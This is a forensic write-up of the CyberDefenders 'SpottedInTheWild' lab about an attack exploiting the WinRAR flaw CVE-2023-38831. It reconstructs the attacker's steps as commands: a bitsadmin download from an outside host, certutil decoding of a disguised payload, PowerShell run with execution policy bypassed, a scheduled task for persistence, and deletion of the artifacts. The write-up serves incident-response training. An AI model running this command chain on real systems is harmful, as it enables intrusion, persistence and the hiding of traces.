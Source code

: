 # Cyber Defender's "SpottedInTheWild" write-up.

## Scenario
"You are part of the incident response team at FinTrust Bank. This morning, the network monitoring system flagged unusual outbound traffic patterns from several workstations. Preliminary analysis by the IT department has identified a potential compromise linked to an exploited vulnerability in WinRAR software."

# CVE-2023-38831 Detail:
RARLAB WinRAR before 6.23 allows attackers to execute arbitrary code when a user attempts to view a benign file within a ZIP archive. The issue occurs because a ZIP archive may include a benign file (such as an ordinary .JPG file) and also a folder that has the same name as the benign file, and the contents of the folder (which may include executable content) are processed during an attempt to access only the benign file. This was exploited in the wild in April through October 2023.
https://nvd.nist.gov/vuln/detail/cve-2023-38831


## Event order:
1. Download amanwhogetsnorest.jpg via bitsadmin:
<pre>
bitsadmin /transfer Nothing /download /priority normal http://172.18.35.10:8000/amanwhogetsnorest.jpg C:\Windows\Temp\amanwhogetsnorest.jpg 
</pre>
2. Used certutil to decode amanwhogetsnorest.jpg, saving the output as normal.zip. (normal.zip contained z.ps1, Eventlog.ps1, run.bat and run.ps1)
<pre>
certutil -decode amanwhogetsnorest.jpg normal.zip 1>nul
</pre>
3. Opened the command prompt to run z.ps1 from PowerShell
<pre>
cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\z.ps1"
</pre>
4. Created a scheduled task  \whoisthebaba
<pre>
schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST
</pre>
5. Deleted z.ps1
<pre>
del z.ps1
</pre>
6. delete amanwhogetsnorest.jpg
<pre>
del amanwhogetsnorest.jpg
</pre>
7. Deleted normal.zip
<pre>
del normal.zip 
</pre>
8. Deleted the scheduled task  \whoisthebaba
<pre>
del c:\Windows\system32\Tasks\whoisthebaba
</pre>
9. Open CMD to run Eventlog.ps1 from PowerShell
<pre>
cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\Eventlog.ps1"
</pre>
10. Deleted Eventlog.ps1
<pre>
del Eventlog.ps1
</pre>
